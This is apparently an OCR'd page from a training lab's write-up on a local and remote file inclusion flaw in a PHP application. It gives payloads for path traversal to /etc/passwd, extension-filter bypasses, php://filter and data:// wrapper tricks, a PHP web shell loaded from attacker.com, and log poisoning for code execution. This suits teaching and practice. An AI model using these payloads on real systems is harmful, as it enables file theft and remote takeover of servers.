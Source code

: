 **Security Issues:**
- Weak extension filtering (only checks for ".json" presence)
- No path validation
- Direct file inclusion without sanitization
- Potential for remote file inclusion

## 🧪 Exploitation Scenarios

### Scenario 1: Basic File Access
**Objective**: Access legitimate training files
```
URL: files/sample.json
Result: Displays CyberWolf training content
```

### Scenario 2: Extension Filter Bypass
**Objective**: Bypass the .json extension requirement
```
Techniques:
1. URL Fragment: ../../../etc/passwd#.json
2. Query Parameter: ../../../etc/passwd?.json
3. Null Byte: ../../../etc/passwd%00.json
4. Double Extension: ../../../etc/passwd.txt.json
```

### Scenario 3: PHP Wrapper Exploitation
**Objective**: Use PHP wrappers for advanced attacks
```
Examples:
1. Base64 Encoding: php://filter/convert.base64-encode/resource=../../../etc/passwd#.json
2. ROT13 Encoding: php://filter/string.rot13/resource=config.php#.json
3. Data Wrapper: data://text/plain,<?php system($_GET['cmd']); ?>#.json
```

### Scenario 4: Remote File Inclusion
**Objective**: Include remote malicious files
```
Setup:
1. Host malicious file: http://attacker.com/shell.txt
2. Content: <?php system($_GET['cmd']); ?>
3. Payload: http://attacker.com/shell.txt#.json
```

### Scenario 5: Log Poisoning
**Objective**: Achieve RCE through log file inclusion
```
Steps:
1. Poison access logs with PHP code in User-Agent
2. Include log file: /var/log/apache2/access.log#.json
3. Execute commands through poisoned logs
```
